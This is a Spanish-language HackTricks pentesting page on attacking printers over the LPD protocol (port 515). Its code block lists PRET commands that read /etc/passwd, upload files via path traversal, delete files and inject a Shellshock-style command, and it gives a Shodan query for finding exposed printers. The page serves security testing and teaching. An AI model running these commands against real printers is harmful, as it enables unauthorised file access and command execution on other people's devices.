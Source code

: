 {{#include ../banners/hacktricks-training.md}}

### **Introducción al Protocolo LPD**

En la década de 1980, se desarrolló el **protocolo Line Printer Daemon (LPD)** en Berkeley Unix, que más tarde se formalizó a través de RFC1179. Este protocolo opera sobre el puerto 515/tcp, permitiendo interacciones a través del comando `lpr`. La esencia de la impresión a través de LPD implica enviar un **archivo de control** (para especificar los detalles del trabajo y el usuario) junto con un **archivo de datos** (que contiene la información de impresión). Mientras que el archivo de control permite la selección de **varios formatos de archivo** para el archivo de datos, el manejo de estos archivos está determinado por la implementación específica de LPD. Una implementación ampliamente reconocida para sistemas similares a Unix es **LPRng**. Notablemente, el protocolo LPD puede ser explotado para ejecutar **PostScript maliciosos** o **trabajos de impresión PJL**.

### **Herramientas para Interactuar con Impresoras LPD**

[**PRET**](https://github.com/RUB-NDS/PRET) presenta dos herramientas esenciales, `lpdprint` y `lpdtest`, que ofrecen un método sencillo para interactuar con impresoras compatibles con LPD. Estas herramientas permiten una variedad de acciones, desde imprimir datos hasta manipular archivos en la impresora, como descargar, subir o eliminar:
```python
# To print a file to an LPD printer
lpdprint.py hostname filename
# To get a file from the printer
lpdtest.py hostname get /etc/passwd
# To upload a file to the printer
lpdtest.py hostname put ../../etc/passwd
# To remove a file from the printer
lpdtest.py hostname rm /some/file/on/printer
# To execute a command injection on the printer
lpdtest.py hostname in '() {:;}; ping -c1 1.2.3.4'
# To send a mail through the printer
lpdtest.py hostname mail lpdtest@mailhost.local
```
Para las personas interesadas en explorar más a fondo el ámbito del **hacking de impresoras**, se puede encontrar un recurso completo aquí: [**Hacking Printers**](http://hacking-printers.net/wiki/index.php/Main_Page).

# Shodan

- `port 515`

{{#include ../banners/hacktricks-training.md}}
